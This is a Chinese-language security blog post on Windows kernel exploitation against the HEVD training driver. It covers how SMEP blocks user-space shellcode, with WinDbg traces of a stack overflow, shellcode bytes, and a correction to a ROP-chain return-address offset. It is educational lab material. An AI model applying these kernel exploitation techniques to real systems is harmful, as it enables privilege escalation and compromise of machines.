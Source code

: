 经过和安全客小编的沟通，已经在文中修改了这处错误，实在抱歉！

第二点是关于Cn33liz的exploit中，在他构造rop chain的时候，覆盖的地址偏移是2072，我发现这个地址并非是ret address，而是2088这个偏移才能够将rop chain的地址覆盖上。

上一篇在安全客的地址：[http://bobao.360.cn/learning/detail/3544.html](http://bobao.360.cn/learning/detail/3544.html) 

在本文中，我对一种常见的获取内核信息的函数NtQuerySystemInformation进行了跟踪分析，对几种绕过SMEP的方法也进行了一些跟踪，感觉与系统博弈的过程还是艰辛又好玩的，做了一些总结然后和大家一起分享。请师傅们多多交流指正。

[![](./img/85624/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016a13515cf177d822.png)

<br>

**0x01 SMEP**

SMEP有点像DEP，是内核的一种缓解措施，我们可以将它简单的理解成禁止在内核态下执行用户空间的代码，下面我们来看一下SMEP的作用，首先通过VirtualAlloc申请用户态空间，并将shellcode拷贝至空间。



```
kd&gt; g
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`fcde14d0 cc              int     3
kd&gt; p
0033:00007ff7`fcde14d1 c3              ret
kd&gt; dd e50000//VirtualAlloc 申请e50000内存，并部署shellcode
00000000`00e50000  148b4865 00018825 828b4c00 000000b8
00000000`00e50010  e8888b4d 49000002 8b48098b 8348f851
00000000`00e50020  057404fa eb098b48 418b48f1 49f02460
d&gt; g//memcpy的时候中断调试，rsi向rdi内存拷贝畸形字符串
Breakpoint 0 hit
HEVD!TriggerStackOverflow+0xdf:
fffff800`02280bbf f3a4            rep movs byte ptr [rdi],byte ptr [rsi]
kd&gt; bp fffff80002280bc1
kd&gt; r rsi
rsi=0000000000fe35d0
kd&gt; dd fe35d0//查看寄存器覆盖情况
00000000`00fe35d0  90909090 90909090 90909090 90909090
```

可以看到，在HEVD中调用memcpy之后，会覆盖到内核栈中的返回地址，在ret返回的时候，会由于栈溢出，跳转到我们之前部署的shellcode的地址e50000位置，这是用户态空间，SMEP开始工作了。



```
kd&gt; !analyze -v//SMEP引发BSOD，ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************
ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY (fc)
```

SMEP会导致BSOD，报错内容是ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY。
